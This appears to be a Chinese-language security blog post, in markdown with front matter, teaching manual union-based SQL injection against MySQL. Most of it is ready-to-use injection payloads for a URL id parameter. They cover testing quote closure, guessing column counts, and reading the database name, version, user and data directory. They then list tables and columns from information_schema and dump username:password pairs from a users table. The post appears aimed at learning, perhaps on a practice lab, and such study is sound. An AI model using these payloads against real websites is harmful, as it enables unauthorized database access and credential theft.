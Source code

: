 ```yaml
---
layout: post
title: MySQL手工注入之基本注入流程
categories: 安全知识
description: MySQL手工注入之基本注入流程
keywords: sql注入
---
```


# mysql 盲注学习

盲注有哪些分类？
总体来讲，盲注分为**布尔型**和**延时型**两大类。

[一文搞定 MySQL 盲注](https://www.anquanke.com/post/id/266244#h3-2)

[sql 介绍](http://www.yowell.pw/?p=327)


# 收集信息
在爆出的字段值里面可以替换为我们的恶意语句，前期主要是收集信息，包括判断当前数据库是否是root用户，MySQL的版本等，一般收集这些信息常用一些MySQL自带的函数去收集信息:MySQL常用的系统函数

```dotnetcli
version()            #MySQL版本user()               
#数据库用户名database()           #数据库名@@datadir            #数据库路径
@@version_compile_os #操作系统版本

```

?id=1'		(测试是否存在注入,报错说明闭合成功，则存在）
?id=1'-- -		(注释后面多余的’limit 0,1 页面正常）
?id=1'order by n-- -		(order by 猜列数）
?id=-1’union select 1,2,3-- -
?id=-1’union select 1,2,database()-- -		(在页面回显出当前的数据库名字）
?id=-1’union select 1,2,group_concat(table_name) from information_schema.tables where t			able_schema=database() -- -		(爆出当前数据库的所有表）
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' -- -		(爆出目标表的列名）
?id=0‘ union select 1,2,group_concat(username,0x3a,password) from users-- -		(爆字段)


## 查询当前数据库名

```dotnetcli
id=1' and 1=2 UNION SELECT 1,database(),3 --+

```
## 查询MySQL版本

```dotnetcli

id=1' and 1=2 UNION SELECT 1,2,version() --+

```
## 查询数据库用户和路径

```dotnetcli
id=1' and 1=2 UNION SELECT 1,user(),@@datadir --+

```

# 查询表名

database 查询数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```
## 单引号-数据库

```dotnetcli
id=1' and 1=2 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

```

# 转载
[新手科普 | MySQL手工注入之基本注入流程
](https://cloud.tencent.com/developer/article/1482397)